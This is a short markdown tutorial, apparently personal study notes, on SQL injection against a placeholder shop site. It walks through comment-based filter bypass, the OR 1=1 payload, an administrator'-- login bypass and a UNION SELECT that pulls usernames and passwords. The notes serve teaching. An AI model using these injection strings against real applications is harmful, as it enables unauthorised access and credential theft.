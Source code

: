 # SQL injection examples

- Retrieving hidden data

* Subverting application logic
* UNION attacks
* Examining the database
* Blind SQL injection

## Retrieving hidden data

```
https://insecure-website.com/products?category=Gifts
```

This results in the SQL query:

```sql
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
```

> The restriction `released = 1` is being used to hide products that are not released. For unreleased products, presumably `released = 0`.

---

### step1

an attacker can construct an attack like:

```
https://insecure-website.com/products?category=Gifts'--
```

This results in the SQL query:

```sql
SELECT * FROM products WHERE category = 'Gifts'--' AND released = 1
```

The key thing here is that the double-dash sequence `--` is a comment indicator in SQL, and means that the rest of the query is interpreted as a comment.
so it no longer includes `AND released = 1`

---

### step2

an attacker can cause the application to display all the products in any category, including categories that they don't know about:

```
https://insecure-website.com/products?category=Gifts'+OR+1=1--
```

This results in the SQL query:

```sql
SELECT * FROM products WHERE category = 'Gifts' OR 1=1--' AND released = 1
```

category is Gifts, or 1 is equal to 1. Since `1=1` is always true, the query will return all items.

## Subverting application logic

Consider an application that lets users log in with a username and password.
If a user submits the username `wiener` and the password `bluecheese`, the application checks the credentials by performing the following SQL query:

```sql
SELECT * FROM users WHERE username = 'wiener' AND password = 'bluecheese'

```

If the query returns the details of a user, then the login is successful. Otherwise, it is rejected.
Here, an attacker can log in as any user without a password simply by using the SQL comment sequence `--` to remove the password check from the `WHERE` clause of the query. For example, submitting the username `administrator'--` and a blank password results in the following query:

```sql
SELECT * FROM users WHERE username = 'administrator'--' AND password = ''
```

## Retrieving data from other database tables

```sql
SELECT name, description FROM products WHERE category = 'Gifts'
```

attacker modify sql command

```sql
' UNION SELECT username, password FROM users--
```

## Read more

[[2_sql_union_attack)
